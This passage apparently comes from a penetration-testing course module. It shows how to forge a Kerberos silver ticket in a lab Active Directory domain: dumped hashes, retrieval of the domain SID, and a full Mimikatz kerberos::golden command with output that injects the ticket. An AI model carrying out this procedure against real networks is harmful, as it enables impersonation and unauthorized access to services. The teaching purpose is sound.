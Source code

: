```shell
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...
```

Now, let's obtain the domain SID, the second piece of information we need. We can enter **whoami /user** to get the SID of the current user. Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain. As covered in the _Windows Privilege Escalation_ Module, the SID consists of several parts. Since we're only interested in the Domain SID, we'll omit the RID of the user.

```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```

The domain SID would be **S-1-5-21-1987370270-658905905-1781884369**, not including the last part.

The last list item is the target SPN. For this example, we'll target the HTTP SPN resource on WEB04 (_HTTP/web04.corp.com:80_) because we want to access the web page running on IIS.

Now that we have collected all three pieces of information, we can build the command to create a silver ticket with Mimikatz. We can create the forged service ticket with the _kerberos::golden_ module. This module provides the capabilities for creating golden and silver tickets alike. We'll explore the concept of golden tickets in the Module _Lateral Movement in Active Directory_.

We need to provide the domain SID (**/sid:**), domain name (**/domain:**), and the target where the SPN runs (**/target:**). We also need to include the SPN protocol (**/service:**), NTLM hash of the SPN (**/rc4:**), and the **/ptt** option, which allows us to inject the forged ticket into the memory of the machine we execute the command on. Finally, we must enter an existing domain user for **/user:**. This user will be set in the forged ticket. For this example, we'll use _jeffadmin_. However, we could also use any other domain user since we can set the permissions and groups ourselves.

The complete command can be found in the following listing:

```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session

mimikatz # exit
Bye!
```

